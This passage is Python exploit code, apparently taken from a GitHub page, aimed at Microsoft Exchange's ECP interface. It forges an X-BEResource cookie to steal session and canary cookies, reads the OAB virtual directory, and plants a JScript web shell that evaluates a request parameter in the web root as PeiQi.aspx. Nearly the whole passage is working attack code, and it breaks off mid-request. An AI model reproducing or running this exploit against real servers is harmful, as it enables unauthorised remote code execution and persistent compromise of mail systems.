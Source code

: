 ```
        'msExchLogonMailbox': 'S-1-5-20',
    }
    url = "https://{}/ecp/PeiQi.js".format(target_url)
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.post(url, headers=headers, data=payload, verify=False, allow_redirects=False)
    session_id = response.cookies.get('ASP.NET_SessionId')
    canary     = response.cookies.get('msExchEcpCanary')
    print("\033[32m[o] Session_id: {}\033[0m".format(session_id))
    print("\033[32m[o] Canary    : {}\033[0m".format(canary))
    
    extra_cookies = [
        'ASP.NET_SessionId='+session_id,
        'msExchEcpCanary='+canary
    ]
    vuln_url = '/ecp/DDI/DDIService.svc/GetObject'
    qs = urlencode({
        'schema': 'OABVirtualDirectory',
        'msExchEcpCanary': canary
    })
    headers = {
        'X-Clientapplication': 'Outlook/15.0.4815.1002',
        'X-Requestid': 'x',
        'X-Requesttype': 'Connect',
        'Cookie': 'X-BEResource=a]@{}:444{}?{}#~1941962753;ASP.NET_SessionId={};msExchEcpCanary={}'.format(computer_name, vuln_url, qs, session_id, canary),
        'Content-Type': 'application/json',
        'msExchLogonMailbox': 'S-1-5-20',
    }
    url = "https://{}/ecp/PeiQi.js".format(target_url)
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.post(url, headers=headers, data='', verify=False, allow_redirects=False)
    identity = response.json()['d']['Output'][0]['Identity']
    print("\033[32m[o] OAB Name: {}\033[0m".format(identity['DisplayName']))
    print("\033[32m[o] OAB ID: {}\033[0m".format(identity['RawIdentity']))
    
    FILE_PATH = 'C:\\inetpub\\wwwroot\\aspnet_client\\PeiQi.aspx'
    FILE_DATA = '<script language="JScript" runat="server">function Page_Load(){eval(Request["PeiQi"],"unsafe");}</script>'
    
    vuln_url = '/ecp/DDI/DDIService.svc/SetObject'
    qs = urlencode({
        'schema': 'OABVirtualDirectory',
        'msExchEcpCanary': canary
    })
    payload = json.dumps({
        'identity': {
            '__type': 'Identity:ECP',
            'DisplayName': identity['DisplayName'],
            'RawIdentity': identity['RawIdentity']
        },
        'properties': {
            'Parameters': {
                '__type': 'JsonDictionaryOfanyType:#Microsoft.Exchange.Management.ControlPanel',
                'ExternalUrl': 'http://f/' + FILE_DATA
            }
        }
    })
    headers = {
        'X-Clientapplication': 'Outlook/15.0.4815.1002',
        'X-Requestid': 'x',
        'X-Requesttype': 'Connect',
```